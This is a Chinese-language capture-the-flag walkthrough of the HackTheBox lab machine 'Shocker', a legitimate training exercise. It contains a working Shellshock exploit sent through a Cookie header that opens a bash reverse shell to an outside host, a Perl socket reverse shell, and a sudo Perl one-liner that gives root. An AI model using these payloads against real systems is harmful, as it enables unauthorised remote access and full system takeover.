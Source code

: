 # shocker

- **shocker**是hackthebox上的一台靶机

### 信息收集

- nmap查看端口以及漏洞

![image-20211012001541688](http://cdn.mxrblog.cn/image-20211012001541688.png)

- 靶机开启了80端口，使用浏览器查看一下：

![image-20211012203221880](http://cdn.mxrblog.cn/image-20211012203221880.png)

- 网页上只显示了一张图像，没有其他的线索，使用dirsearch查看目录
- 第一次查看发现目录cgi-bin有东西，第二次进一步检索，发现该目录里有可执行文件user.sh

![image-20211012205731556](http://cdn.mxrblog.cn/image-20211012205731556.png)

- 使用工具curl查看user.sh的内容

![image-20211012210545863](http://cdn.mxrblog.cn/image-20211012210545863.png)

- 尝试向user.sh这个可执行脚本文件中发送反弹shell的代码,并在靶机上nc监听

`curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.23/4443 0>&1' http://10.10.10.56/cgi-bin/user.sh`

![image-20211012211112986](http://cdn.mxrblog.cn/image-20211012211112986.png)

![image-20211012211127541](http://cdn.mxrblog.cn/image-20211012211127541.png)

- user.sh文件是需要root权限才能够执行，我们需要从其他地方下手
- 使用sudo -l 来查看是否有当前用户能够执行root权限的行动

![image-20211012213008319](http://cdn.mxrblog.cn/image-20211012213008319.png)

- 可以使用perl语言进行反弹shell

```
perl -e 'use Socket;$i="10.10.14.23";$p=4443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

![image-20211012213717937](http://cdn.mxrblog.cn/image-20211012213717937.png)

![image-20211012213800327](http://cdn.mxrblog.cn/image-20211012213800327.png)



- 得到user.txt 和root.txt

![image-20211012213913480](http://cdn.mxrblog.cn/image-20211012213913480.png)

![image-20211012214052223](http://cdn.mxrblog.cn/image-20211012214052223.png)

- 或者使用以下perl命令获得root shell

```
/usr/bin/perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
```

![image-20211012214435236](http://cdn.mxrblog.cn/image-20211012214435236.png)

